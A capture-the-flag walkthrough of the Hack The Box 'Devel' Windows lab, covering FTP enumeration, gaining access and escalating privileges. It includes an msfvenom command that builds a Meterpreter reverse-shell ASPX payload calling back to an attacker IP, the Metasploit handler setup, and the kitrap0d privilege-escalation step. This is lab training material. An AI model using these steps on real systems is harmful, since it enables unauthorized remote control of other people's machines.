










Hack The Box: Devel Walkthrough
Date: Febuary 16, 2021
Go To:
SummaryEnumeration
Exploitation
Summary:
Technical Walkthrough of Hack the Box's Devel machine. Devel is a Windows machine, rated as an easy. It’s been about 8 months since I was last active on Hack the Box, so I wanted to get back into the groove with a pretty easy machine. The enumeration and exploitation process was quick and simple. I’d recommend this machine for beginners.
Enumeration:
I started the information gathering with a typical nmap scan of the common ports. The results show that port 80 (http), and 21 (ftp) are open. The nice thing about ftp results on nmap is that it will also show if ‘Anonymous’ login is allowed. This means you don’t need to know a set of login credentials. Instead enter the username of ‘anonymous’ and leave the password field blank (just press enter) when prompted. It even lists the files in the folder we will have access to. Note: The files listed look like ones left over from other people using the box.
To ftp, enter ‘ftp <ip address>’ and put your creds. Since we know that ‘anonymous’ is accepted then I’ll use that as my username and press enter when prompted for passwords. To list the files in the directory that you are in type ‘dir’. Here we can see that there are a lot of files that seem to be from other users, the ‘iisstart.html’ is the welcome page, and ‘welcome.png’ is the image that's displayed on the main page. I doubt there is any steganography on this welcome png, and I didn't see anything useful in the html's source code. On more difficult boxes that would be something to look into.
Exploitation:
I found out I have privileges to transfer files, so I'll try putting a payload to get a reverse shell. I’ll be using msfvenom to create the payload, and metasploit to set up the listener to get my reverse shell. I used the payload ‘windows/meterpreter/reverse_tcp’, then set the local host ‘LHOST’ to your machine and the listening port ‘LPORT’ to the port you want to listen on. Note: you can find your IP with 'ifconfig' and it's listed under tun0. The port can pretty much be any one that isn’t a common port. I used '5555' since it’s easy to remember, and I'll name the file 'jv-devel.aspx'.
msfvenom -p /windows/meterpreter/reverse_tcp -f aspx -o jv-devel.aspx LHOST=10.10.14.30 LPORT=5555
With the payload created, we can now put it on the target machine through ftp. To transfer the file type 'put <your file name>' in my case 'put jv-devel.aspx'. Then 'dir' to make sure it's listed.
Now it’s time to set up the listener on metasploit, enter ‘msfconsole’ in a command prompt. The exploit for the msfvenom shells is ‘exploit/multi/handler’. Here we set the options to match what we used when we created the payload with msfvenom. Set payload to ‘windows/meterpreter/reverse_tcp’, set lhost to your attacking machine, and the port to the whichever you choose. Once completed, double check the setting with ‘show options’.

To execute either enter ‘run’ or ‘exploit’, but I prefer to use
‘exploit’ since it feels cooler to type out.
Take note that it says it created a session '1' as this info will be use later on.
I got a shell on my first try, but these boxes are being used
constantly so if you don’t get a shell right away try 2-3 more times.
Enter 'shell' to get a working shell prompt.
Nothing too useful in the folders, the User folders of Babis and Administrators get access denied. Right away I got the systeminfo for the machine, and ran it through Windows Exploit Suggester. However, it didn’t lead me to one I could use, and I ended up just using metasploit for the privilege escalation. I’ll still provide the images for it below.

Exiting the shell and changing to '/multi/recon/local_exploit_suggester' I list the possible exploits. With a couple trial and errors I find the right exploit of '/exploit/windows/local/ms10_015_kitrap0d'. Type 'show options' to see what needs to be set. Looks like just the session. As noted eariler, session 1 is being used for inital exploit, so we just need to enter 'set session 1'. Then execute with 'exploit' or 'run'.

Sweet, we got our Meterpreter session back. Enter ‘shell’ to go to a shell, then check what account we are in with ‘whoami’. Now the fireworks can be set off as we see that we are now ‘System’ and can access the Babis and Administrator folder.

To get the root and user flags, change directories 'cd' to get the 'Users' folders
then check the 'Desktop'
folders for 'Babis' and 'Administrator'.
Since this is a Windows machine, to
print out the contents of a text file enter 'type <file name>'.

Thanks for reading this Walkthrough for the Devel machine!